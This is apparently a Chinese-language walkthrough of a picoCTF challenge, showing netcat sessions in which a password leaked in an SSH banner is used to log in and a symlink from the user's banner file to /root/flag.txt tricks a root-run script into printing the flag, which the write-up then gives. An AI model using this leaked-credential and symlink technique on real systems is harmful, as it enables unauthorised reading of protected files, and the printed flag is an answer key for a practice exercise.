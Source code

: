 # Description
Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 58851. Use the leaked information to get to the server. To connect to the running application use nc tethys.picoctf.net 51029. From the above information abuse the machine and find the flag in the /root directory.

# 解題
先用 `netcat` 連線到 `tethys.picoctf.net 58851`
```bash
└─$ nc tethys.picoctf.net 58851
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

接下來連線到 `tethys.picoctf.net 51029` 會連續問幾題問題，依序回答後即可進到 Shell
```bash
└─$ nc tethys.picoctf.net 51029
*************************************
**************WELCOME****************
*************************************
# 這裡的密碼推測是剛開始連線時取得的 My_Passw@rd_@1234
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
JOHN
player@challenge:~$
```
首先使用 `ls` 發現底下有兩個檔案
```bash
player@challenge:~$ ls
ls
banner  text
```
根據題目，得知 flag 在 `/root` 目錄下，故先去看 `/root`，發現底下有兩個檔案
```bash
player@challenge:~$ cd /root
cd /root
player@challenge:/root$ ls
ls
flag.txt  script.py
```
使用 `cat` 看兩個檔案的內容
```bash
# 發現對於 flag.txt 沒權限
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
```
接者是 script.py，可以發現以下這段程式碼負責開啟 `/home/player/banner`，並在剛連線時顯示這個 banner。可以利用這點，使用 `ln` 為 `/root/flag.txt` 建立名為 banner 的符號連結，以讓 script.py 可以用這個連結，以 flag.txt 內容取代原本的 banner
```python
with open("/home/player/banner", "r") as f:
```
首先移除 /home/player/banner
```bash
player@challenge:~$ rm banner
```
接著建立符號連結後，中斷連線並重新連線，就可以看到 flag
```bash
player@challenge:~$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
player@challenge:~$ ^C
                                                                                                                        
┌──(kali㉿kali)-[~/Downloads]
└─$ nc tethys.picoctf.net 51029
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}

what is the password?
```

# 本題 flag
<!-- flag -->
所以本題 FLAG 
```text
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
```
